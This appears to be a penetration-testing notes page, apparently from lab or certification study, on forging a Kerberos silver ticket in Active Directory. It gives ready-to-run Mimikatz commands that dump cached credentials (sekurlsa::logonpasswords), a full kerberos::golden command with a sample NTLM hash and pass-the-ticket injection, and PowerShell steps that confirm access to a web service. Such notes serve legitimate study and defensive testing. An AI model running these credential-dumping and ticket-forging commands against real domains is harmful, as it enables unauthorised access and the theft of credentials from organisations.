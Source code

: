 # Silver Tickets

In general, we need to collect the following three pieces of information to create a silver ticket:

{% stepper %}
{% step %}
**SPN password hash**

Extract cached AD credentials with Mimikatz:

{% code title="Mimikatz" %}
```
privilege::debug

sekurlsa::logonpasswords
```
{% endcode %}

* looking for NLTM hashes
{% endstep %}

{% step %}
**Domain SID**

```
whoami /user
```

* we're only interested in the Domain SID, so we omit the RID of the user
{% endstep %}

{% step %}
**Target SPN**


{% endstep %}
{% endstepper %}



Confirm user has no access to the resource:&#x20;

```powershell
iwr -UseDefaultCredentials http://web04
```

### Extract cached AD credentials with Mimikatz:

{% code title="Mimikatz" %}
```powershell
privilege::debug

sekurlsa::logonpasswords
```
{% endcode %}

* looking for NLTM hashes

### Get SID:

```powershell
whoami /user
```

* we're only interested in the <mark style="color:green;">Domain SID</mark>, so we omit the <mark style="color:red;">RID</mark> of the user (e.g <mark style="color:green;">S-1-5-21-1987370270-658905905-1781884369</mark><mark style="color:red;">-1105</mark>)

### Create the forged service ticket

{% code title="Mimikatz" overflow="wrap" %}
```powershell
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
{% endcode %}

* **kerberos::golden**_:_ Mimikatz module to create the forged service ticket
* **/sid:** domain SID
* **/domain:** domain name
* **/target:** the target where the SPN runs
* **/service:** SPN protocol
* **/rc4:** NTLM hash of the SPN
* **/ptt:** allows us to inject the forged ticket into the memory of the machine we execute the command on
* **/user:** an existing domain user

List Kerberos tickets to confirm the silver ticket is submitted to the current session:

```
klist
```

Attempt to access the resource:

```powershell
iwr -UseDefaultCredentials http://web04
```

